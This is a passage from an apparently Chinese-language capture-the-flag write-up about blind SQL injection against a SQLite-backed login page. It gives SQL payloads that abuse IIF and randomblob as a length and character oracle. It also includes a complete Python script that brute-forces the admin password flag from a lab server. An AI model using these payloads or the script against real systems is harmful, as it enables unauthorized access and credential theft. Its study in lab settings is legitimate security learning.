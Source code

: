               json_extract(users, '$.admin.password') as c
            FROM db
            WHERE
                b = 'admin'
                AND IIF(length(c) = 10, (SELECT randomblob(1000000000 % 10) FROM sqlite_master WHERE 1 LIMIT 1), 1); -- # 
            ```
            在local測試時，FLAG1=`FLAG{test}`，也就是只有10個字，如果條件設定不符合時，就會query出東西，因為條件不符回傳1，如下圖
            ![圖片](https://hackmd.io/_uploads/SJxwu7Fwa.png)
            
            ---
            反之，就會query不出東西，也就是crash
            ![圖片](https://hackmd.io/_uploads/Hywt_QYvp.png)
        * 如果想要知道某一個字元可以substr這個function
            ```sql
            SELECT 
              json_extract(users, '$.admin.username') as a,
              json_extract(users, '$.admin.username') as b,
              json_extract(users, '$.admin.password') as c
            FROM db
            WHERE
                b = 'admin'
                AND IIF(substr(c, 1, 5) = 'FLAG{', (SELECT randomblob(1000000000 % 10) FROM sqlite_master WHERE 1 LIMIT 1), 1); -- # 
            ```
    4. 此時就可以開寫script去server端爆破FLAG1
## Exploit - Time Based SQLi
```python!
from requests import *
from string import *


strings = ascii_letters + digits + punctuation
url = "http://10.113.184.121:10081/login"

flag = ""
for i in range(27):
    if i == 26:
        flag += "}"
        break
    else:
        for string in strings:
            payload = f"admin.username\") as a,   json_extract(users, '$.admin.username') as b,   json_extract(users, '$.admin.password') as c FROM db  WHERE    b = 'admin'    AND IIF(substr(c, 1, {i + 1}) = '{flag + string}', (SELECT randomblob(1000000000 % 10) FROM sqlite_master WHERE 1 LIMIT 1), 1); -- # "

            # payload = "admin.username\") as a,   json_extract(users, '$.admin.username') as b,   json_extract(users, '$.admin.password') as c FROM db  WHERE    b = 'admin'    AND IIF(length(c) = 27, (SELECT randomblob(1000000000 % 10) FROM sqlite_master WHERE 1 LIMIT 1), 1); -- # "
            
            # print(payload)

            try:
                r = post(url=url, data={"username" : payload, "password" : "guest"})
            except:
                flag += string
                print(flag)
                break
print(flag)
```
